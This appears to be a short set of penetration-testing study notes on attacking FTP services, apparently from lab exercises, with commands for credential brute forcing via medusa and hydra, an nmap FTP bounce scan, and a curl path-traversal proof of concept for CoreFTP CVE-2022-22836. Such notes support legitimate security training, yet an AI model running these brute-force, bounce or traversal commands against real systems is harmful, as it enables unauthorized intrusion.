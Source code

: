 ### Misconfigurations 

Anonymous Auth?

### Brute Forcing 
```shell
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp
```

```shell
hydra -L user.list -P pass.list <ip> ftp
```

### FTP Bounce Attack 
![[Pasted image 20230803132857.png]]
Use FTP server to deliver outbound traffic to another device on the network. 

```shell
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```

Often disabled by default but can be misconfigured  

### FTP Vulnerabilities 
#### CoreFTP before build 727 
[CVE-2022-22836](https://nvd.nist.gov/vuln/detail/CVE-2022-22836)

```shell
curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```
